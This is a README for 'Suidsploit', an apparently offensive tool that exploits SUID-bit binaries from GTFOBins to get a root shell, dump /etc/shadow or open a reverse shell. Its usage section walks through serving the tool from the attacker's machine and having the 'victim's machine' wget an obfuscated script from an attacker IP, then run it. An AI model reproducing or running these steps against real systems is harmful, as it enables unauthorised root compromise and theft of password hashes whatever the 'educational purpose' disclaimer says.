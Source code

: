 # Suidsploit by Tizun & Silky

[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

Suidsploit is a Tool which can exploit 137 files from GTFO-Bins where the Suidbit is set.
On successful exploitation you can gain:

- Root Shell
- Output of /etc/shadow
- Reverse shell

![alt text](https://github.com/S1lkys/Suidsploit/blob/master/Suidsploit.png)


# Usage:
Open your favorite Terminal and run these commands.
On your machine:
- Download Suidsploit
- Start a HTTP-Server


$ git clone https://github.com/S1lkys/Suidsploit.git

$ cd Suidsploit/

$ python -m SimpleHTTPServer 80


On victims machine:
- download Suidsploit
- make it executable
- execute Suidsploit


$ wget http://192.168.xxx.xxx/Suidsploit.ob.sh

$ chmod +x Suidsploit.ob.sh

$ bash Suidsploit.ob.sh
### Todos

- Fix found Bugs
- Add new Tools

License
----
For educational Purpose only!
---
